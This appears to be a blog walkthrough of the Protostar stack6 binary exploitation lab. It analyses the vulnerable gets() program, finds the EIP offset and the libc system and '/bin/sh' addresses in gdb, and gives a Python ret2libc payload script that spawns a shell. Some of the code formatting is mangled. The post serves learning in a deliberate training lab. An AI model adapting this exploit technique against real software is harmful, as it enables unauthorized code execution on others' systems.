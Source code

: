 ```yaml
---
title: "ROP: ret2libc Attack -Protostar6"
author: "Trevor saudi"
date: 2021-05-12T10:30:13.245Z
lastmod: 2022-05-24T14:32:01+03:00

description: ""


image: "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png" 
images:
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg"


aliases:
    - "/rop-ret2libc-attack-protostar6-ab537d59b6a8"

---
```


## Bypassing stack pointer restrictions to gain arbitrary code execution

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png#layoutTextWidth)


[_Protostar_](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) _is a series of beginner binary exploitation challenges which showcases concepts like basic stack-based buffer overflows, bypassing stack protections and even performing format string attacks. I tried out these challenges as I have close to 0 experience with binary exploitation and wanted to learn some of it and it turned out fun. So let’s get to_ [_protostar6_](https://exploit.education/protostar/stack-six/) _and learn some ret2libc !_

### Source code analysis and some recon

We are given the source code below to protostar6.c

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0); 

  if((ret & 0xbf000000) == 0xbf000000) { 
      printf("bzzzt (%p)\n", ret); 
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

As of previous challenges, our goal is get code execution on the target host which has the compiled binary of this source code. Some of the key things to understand here are:

*   ```gets(buffer) :``` The program will ask as for an input and store it an ```buffer of size 64 bytes.``` Gets is a vulnerable function in C that causes stack overflows
*   ```ret``` : __builtin_return_address(0) - This function checks the current return address on the stack and sets it to a variable ret
*   ```if((ret &amp; 0xbf000000) == 0xbf000000) :``` This check performs a ```bitwise AND``` operation with the ```current address on the stack``` with the hex value ```0xbf000000``` and then compares it with 0xbf000000. Essentially what this means is that, it checks if the first byte in the return address is equal to 0xbf, since the remaining bytes will be converted to 0 in the AND operation. Suppose our return address points to``` 0xbfffff01:```, the check is performed as follows
Operation``` |    ```HEX```    |    ```Binary```  
__________|___________|__________________________________________  

           0xbfffff01 = 10111111 11111111 11111111 00000001  
      ```AND```  0xbf000000 = 10111111 00000000 00000000 00000000  
_________________________________________________________________             
The AND operation gives 0xbf000000. So any address beginning with 0xbf will cause the condition to return to true and exit the program`

*   ```_exit(0) :``` A system call to exit the function if the operation above gives us an address beginning with 0xbf

### Logic behind the non-executable stack protection

In classic buffer overflows, our goal is usually to overwrite the instruction pointer / the return address with the address at the top of the stack where we put our shell code and get code execution.

But in this case, if we were to overwrite the return address with an address on the stack , the operation fails and the program exits. Let us see why using gdb

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png#layoutTextWidth)


Running the program and viewing how the addresses are mapped in memory we see something interesting. All addresses in the stack begin with 0xbf thus hijacking the control flow and pointing to the stack will fail

### ret2libc Exploit

A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

“ Every time you write a C program, you use one or the other of the inbuilt functions, like `printf`, `scanf`, `puts` etc. Have you wondered where the definitions of these functions lie? All the standard C functions have been compiled into a single file, named ```the standard C library``` or the `libc`.You can use the `ldd` command to find out which libc is being used by an application. ”

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png#layoutTextWidth)


We can leverage this technique by jumping to the return address of libc . libc has a syscall named `system` that we will use to execute ‘/bin/sh’ and gain shell

### Developing the exploit

1.  We begin by finding the location of the EIP. Generate the crash pattern and supply in gdb

```bash
/usr/bin/msf-pattern_create -l 100  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

*   Supply the pattern and note down the address in the EIP
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png#layoutTextWidth)


*   Let us get the offset of the pattern 
```bash
/usr/bin/msf-pattern_offset -l 100 -q 0x37634136  
[*] Exact match at offset 80
```

2. Finding the address of libc

*   As noted earlier this can be done using `info proc map` the location of the libc is at `/lib/libc-2.11.2.so` with address `0xb7e97000` . The address in this case does not start with 0xbf hence we can load it onto the stack bypassing the stack protection
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png#layoutTextWidth)


3. Finding the address of the ```system``` syscall
`(gdb) p system ```&lt;--- p means print```  
$1 = {&lt;text variable, no debug info&gt;} 0xb7ecffb0 &lt;__libc_system&gt;  
(gdb)`

4. Finding the location of the ‘/bin/sh’ within libc
`root@protostar:/opt/protostar/bin# strings -a -t x /lib/libc-2.11.2.so | grep &#34;/bin/sh&#34;  
 11f3bf /bin/sh  

`

*   strings command lists all readable strings
*   a scans through the entire file
*   -t x will print the addresses in hex
*   grep locates the string we specify with ‘/bin/sh’

In summary our exploit will

*   fill up the padding using 80 characters to reach the EIP.
*   Overwrite the EIP using the `system` syscall address which gets loaded onto the stack.
*   Since the stack will return control flow to the program, we still want to be in control of the EIP so we can chain multiple function calls. We cause the EIP to segfault using an invalid address that will be loaded onto the stack.
*   Then we load the address of the location of the ‘/bin/sh’ which will be `the libc address + offset of ‘/bin/sh’` that we found above.
*   Now the next address on the stack will be pointing to the string `‘/bin/sh’ `which system executes as `system(‘/bin/sh’)` and gives a shell

### Putting together a python exploit script

You could use pwntools for this but I will keep the walkthrough simple.
`import struct``## EIP OFFSET  
payload = &#34;A&#34;*80``## libc SYSTEM SYSCALL  
system = struct.pack(&#34;I&#34;,0xb7ecffb0)``## Ret address after system  
ret = &#34;\x90&#34; * 4``## libc /bin/sh  
shell = struct.pack(&#34;I&#34;,0xb7e97000+0x11f3bf)``print (payload + system+ret+shell)`

We run the exploit and concatenate with the `cat` command to open an stdin stream so we have access to the shell we get

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png#layoutTextWidth)


If this walkthrough is not enough, I recommend using other resources to understand the concept of ret2libc as it may not be easy to grasp on the first try.

Happy hacking :)

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg#layoutTextWidth)
